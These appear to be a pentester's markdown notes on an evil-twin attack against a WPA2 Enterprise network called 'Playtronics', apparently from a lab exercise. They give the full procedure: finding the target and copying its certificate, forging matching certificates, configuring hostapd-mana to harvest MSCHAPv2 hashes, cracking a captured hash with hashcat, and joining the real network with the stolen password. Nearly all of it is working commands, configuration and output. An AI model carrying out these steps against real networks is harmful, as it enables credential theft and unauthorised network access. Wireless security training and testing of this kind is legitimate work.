 ## WPA Enterprise

```text
sudo airodump-ng wlan0mon
```
```text
BSSID              PWR Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
FC:EC:DA:8F:2E:90  -40     639       19    1   2  300. WPA2 CCMP   MGT  Playtronics
```
MGT, meaning WPA Enterprise

####To view Certificate for SSID
```text
sudo airodump-ng wlan0mon -w Playtronics
```
Review in wireshark with filter "wlan.bssid=FC:EC:DA:8F:2E:90 && eap && tls.handshake.certificate"
in the submenus of the reviewed packet - open EAP -> TLS -> Certificate -> Certificates

The certificate once exported can be reviewed with openssl to get the 

openssl x509 -inform der -in cert.der text
 
### To mimick this AP

### Setup Certificates

```text
sudo apt install freeradius
sudo -s
cd /etc/freeradius/3.0/certs
```

```text
nano ca.cnf
....
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
....
```

```text
nano server.cnf
....
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
....
```

```text
rm dh
make destroycerts
```

### Setup hostapd-mana - AP
```text
sudo apt install hostapd-mana
```
```text
nano /etc/hostapd-mana/mana.conf

ssid=Playtronics
interface=wlan0
driver=nl80211
channel=1
hw_mode=g
ieee8021x=1
eap_server=1
eapol_key_index_workaround=0
eap_user_file=/etc/hostapd-mana/mana.eap_user
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

auth_algs=1
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP

mana_wpe=1
mana_credout=/tmp/hostapd.credout
mana_eapsuccess=1
mana_eaptls=1
```
```text
nano /etc/hostapd-mana/mana.eap_user

*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


### Start the AP with certificate
```text
sudo hostapd-mana /etc/hostapd-mana/mana.conf
```

### Output
```text
MANA EAP EAP-MSCHAPV2 ASLEAP user=user1 | asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e
MANA EAP EAP-MSCHAPV2 JTR | user1:$NETNTLM$5f57b0b6d16de082$e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:::::::
MANA EAP EAP-MSCHAPV2 HASHCAT | user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082
```


### Crack with Asleap
I could not get this to work ....
```text
asleap -C 5f:57:b0:b6:d1:6d:e0:82 -R e7:db:11:00:06:f7:49:02:0e:e9:17:61:c8:d2:d4:a4:e5:4b:a7:fa:9b:97:81:4e -W /usr/share/john/password.lst
```


### Crack with Hashcat
5500 | NetNTLMv1 / NetNTLMv1+ESS

```text
echo user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082 > wpa_enterprise.txt
hashcat -m 5500 wpa_enterprise.txt rockyou.txt

user1::::e7db110006f749020ee91761c8d2d4a4e54ba7fa9b97814e:5f57b0b6d16de082:password1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
```

### Connect to real Wifi
```text
nano /home/<user>/wificonnection.conf

network={
scan_ssid=1
eap=PEAP
ssid="YOUR_SSID"
key_mgmt=WPA-EAP
identity="YOUR_USERNAME"
password="YOUR_PASSWORD"
phase1="peaplabel=0"
phase2="auth=MSCHAPV2"
}

wpa_supplicant -B -i wlan0 -c /home/<user>/wificonnection.conf

dhclient wlan0
```




https://7thzero.com/blog/wifi-from-the-cli-in-linux-using-wpa_supplicant










